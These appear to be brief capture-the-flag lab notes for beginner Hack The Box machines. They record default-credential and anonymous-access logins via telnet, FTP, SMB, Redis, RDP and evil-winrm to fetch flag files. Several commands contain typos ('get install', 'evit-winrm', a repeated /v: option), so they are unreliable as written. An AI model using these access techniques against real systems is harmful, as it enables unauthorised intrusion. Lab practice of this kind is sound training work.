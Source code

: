 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

# TIER 1

###  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

